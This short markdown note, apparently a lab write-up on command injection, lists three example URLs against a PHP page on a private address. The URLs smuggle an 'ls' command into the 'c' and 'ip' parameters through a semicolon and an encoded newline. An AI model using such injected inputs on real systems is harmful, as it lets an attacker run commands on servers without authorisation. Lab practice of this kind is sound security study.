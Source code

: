 # Command Injection

## Exploit
- 192.168.1.79/commandi.php?c=ls
- 192.168.1.79/commandi.php?ip=192.168.1.2;ls
- 192.168.1.79/commandi.php?ip=192.168.1.2%0als
